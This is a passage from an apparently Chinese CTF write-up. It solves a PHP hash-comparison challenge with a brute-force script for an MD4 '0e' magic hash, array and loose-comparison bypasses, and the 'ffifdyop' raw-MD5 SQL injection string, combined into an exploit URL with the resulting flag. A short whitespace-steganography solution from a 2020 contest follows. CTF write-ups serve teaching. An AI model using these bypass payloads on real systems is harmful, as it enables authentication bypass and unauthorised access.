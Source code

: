 
level1用0e251288019绕过，生成脚本：

```python
import hashlib
import string
import itertools
i = 0
prefix = "0e"
while 1:
	if i%1000000 == 0:
		 print prefix + str(i)
	hash1 = hashlib.new("md4", prefix + str(i)).hexdigest()
	if hash1[:2] == "0e" and  hash1[2:].isdigit():
		print prefix + str(i)
		print hash1
		exit()
	i += 1
```

level2用数组配合0e绕过：

```
hash2[]=1&hash3[]=0e
```

level3用ffifdyop绕过

```
http://39.101.177.96/index.php?hash1=0e251288019&hash2[]=1&hash3[]=0e&hash4=ffifdyop
```

```
array(3) { ["id"]=> string(1) "1" ["flag"]=> string(24) "flag{y0u_w1ll_l1ke_h4sh}" ["password"]=> string(32) "641ec1386cb6a65f6831a48be12c8ad1" } 
```

# 钓鱼城杯2020

###### whitespace

有两种空格，需要进行替换

![image-20200906205208447](/image-20200906205208447.png)

把两种空格分别替换成1和0:

![image-20200906205256640](/image-20200906205256640.png)

然后转换为字符串拼起来就好：

```
s = s.split('\n')
for i in s:
    if i != '1':
        print(chr(int(i,2)), end = '')
```
